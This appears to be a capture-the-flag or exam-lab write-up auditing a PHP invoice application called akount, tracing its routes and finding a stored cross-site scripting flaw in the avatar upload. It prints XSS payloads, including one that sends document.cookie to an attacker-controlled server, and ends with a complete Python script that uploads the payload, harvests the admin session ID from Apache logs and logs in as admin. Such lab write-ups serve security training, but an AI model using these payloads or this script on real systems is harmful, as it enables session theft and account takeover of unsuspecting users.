## AUDIT

For the akount application we start by navigating to the IP address:



By the first look and feel, the application seems to be an invoice generator.
The application has a signup option.
We can signup for testing purposes:



After creating an account, we can login, and create new invoices, delete old one's and so on:



After getting a feel for the application, we can jump on to the source code.
As the source code is in PHP, we can directly open the webroot to analyze the code:



Right off the bat, we navigate to the `src` folder, and find the routes.php file.
This file contains all the REST endpoints for the web application, thus this is a good place to start our analysis:



We see many endpoints, some of the endpoints implement the `$validateAdmin` property.
The endpoints that implement this property, seem to be the one's that require authentication and can only be accessed by an administrator.
The list of endpoints are as follows:

```php
'/logout'
'/admin'
'/admin/delete/{id}'
'/invoices'
'/account'
'/account'
'/upload-avatar'
'/invoice/{id}'
'/invoice/{id}/print'
'/invoice/{id}/file'
'/invoice/{id}/remind'
'/invoice/{id}/delete'
'/invoice/delete/all'
'/invoice-export-xml/'
'/import/'
'/seed/'
'/customers'
'/customer/' 
'/customer/{id}/edit'
'/customer/{id}/delete'
'/customer/{id}/delete/confirm'
'/login'
'/register'
'/forgot'
'/reset/{userId}/{resetToken}/{time}/{pwhash}'
```

A few of these seem interesting such as:
1. `/admin`
2. `/upload-avatar`
3. `/reset`
4. `/seed`

The maximum effort would be taken in the `/invoice` and `/customers` routes as they contain the most amount of endpoints.
Thus, to start with low hanging fruits, we can test the `upload-avatar` endpoint, which seems nothing much but a function to upload an image for user's account.

The endpoint seems to use the `uploadAvatar()` function, from the `AuthController.php` file:



Tracking the function:



We see that the function, grabs the file being uploaded in the request, and store it in the `$uploadedFiles` variable.
The contents are then extracted in the `$avatar` variable which is then passed through a validator function.
If the validation succeeds, the variable is then passed to the `addAvatar` function.

Tracking `addAvatar`:



We see something very interesting in this function.
First the user who uploaded the avatar is defined.
Then, the avatar variable containing the contents of the uploaded file, is placed under an JavaScript `img` tag, using the `htmlspecialchars()` function, which converts some predefined characters to HTML entities, with certain height and width for the avatar.
The bug is that, the user can control the contents of what goes inside the `img` tag, which creates a cross-site Scripting(XSS) vector.

We can test this under the test account we created.
We will first upload a normal image, pass the request to burp, and try to control the contents, to see if we can exploit the bug.

We start with uploading a random picture.
We can navigate to the upload avatar endpoint from the /account endpoint:



Uploading the image:



Inspecting in burp:



The image is now uploaded, and now we can view-source in our browser to see the data under the image tag:


We can delete data with burp to make the output more readable:




The query we're working with is as follows:
```javascript
' alt='Avatar' width='75px'75px'/>
```

As we can control a part of the data, we can dot he following:
```javascript
' onload=javascript:alert(1) width='50px' alt='Avatar' width='75px'/>
```

so our payload would be:
```javascript
' onload=javascript:alert(1) width='50px
```

Changing the payload to the same in burp:



and load the page:



We find that our XSS payload, gets executed.

Now that we have an XSS vulnerability we can exploit, by using the onload function to send a request to our apache server with the PHPSESSIONID, to hijack a user's session.
Our payload would be as follows:

```javascript
' onload=javascript:fetch('http://192.168.167.100/id='+document.cookie) width='50px
```


## BURP REQUESTS

Injecting the payload into the application:



Looking at our apache logs:



Injecting the cookie into loading the website using burp:



We are able to login as the Admin and grab the local.txt flag.

Opening the session in browser:



## CODE

The Python script for the exploit is as follows:

```python
import requests
import os
from time import sleep

proxies = {"http":"127.0.0.1:8080", "https":"127.0.0.1:8080"}

def main():
    print("[+] PLEASE RUN AS ROOT")
    print("[+] Creating an account")
    s = requests.Session()
    s.post("http://192.168.167.162/register", data={"name":"user", "email":"user@email.com", "password":"pwnuser"})
    print("[+] Logging in....")
    s.post("http://192.168.167.162/login", data={"email":"user@email.com", "password":"pwnuser"})
    print("[+] Running XSS payload")
    headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://192.168.167.162/account", "Content-Type": "multipart/form-data; boundary=---------------------------93989992317152596293450040338", "Origin": "http://192.168.167.162", "Connection": "close"}
    data = "-----------------------------93989992317152596293450040338\r\nContent-Disposition: form-data; name=\"avatar\"; filename=\"avatar\"\r\nContent-Type: application/octet-stream\r\n\r\ndata:text/html;base64,iVBORw0KGgoAAAANSUhEUgAAARYAAAEcCAYAAAAC1pspAAAABHNCSVQICAgIfAhkiAAAA5lJREFUeJzt1MEJwCAAwEB1E8H9V7RLBIRyN0FemfvsOwBC63UA8D/GAuSMBcgZC5AzFiBnLEDOWICcsQA5YwFyxgLkjAXIGQuQMxYgZyxAzliAnLEAOWMBcsYC5IwFyBkLkDMWIGcsQM5YgJyxADljAXLGAuSMBcgZC5AzFiBnLEDOWICcsQA5YwFyxgLkjAXIGQuQMxYgZyxAzliAnLEAOWMBcsYC5IwFyBkLkDMWIGcsQM5YgJyxADljAXLGAuSMBcgZC5AzFiBnLEDO' onload=javascript:fetch('http://192.168.167.100/id='+document.cookie) width='50px\r\n-----------------------------93989992317152596293450040338--\r\n"
    s.post("http://192.168.167.162:80/upload-avatar", headers=headers, data=data)
    print("[+] Payload uploaded, starting apache server")
    os.system("systemctl start apache2")
    print("[+] waiting for payload to execute....")
    sleep(60)
    print("[+] storing session ID to session.txt")
    os.system('tail -1 /var/log/apache2/access.log | cut -d "/" -f 4 | cut -d "=" -f 3 | cut -d " " -f 1 > session.txt')
    f = open('session.txt', 'r')
    print("[+] user session IDs are as follows:")
    sessionid = f.read()
    f.close()
    print(sessionid)
    print(sessionid.strip())
    print("[+] Logging in with the session key")
    flag_url = "http://192.168.167.162/"
    flag_cookies = {"PHPSESSID": "{}".format(sessionid.strip())}
    getflag = requests.get(flag_url, cookies=flag_cookies)
    getflagresp = open('resp.txt','w')
    getflagresp.write(getflag.text)
    getflagresp.close()
    os.system("""grep -E 'alert.{0,60}' resp.txt | cut -d ">" -f 2 > flag.txt""")
    flag = open('flag.txt', 'r')
    local = flag.read()
    flag.close()
    print("[+] local.txt is:")
    print(local)

main()
```

XSS script extracting local flag:

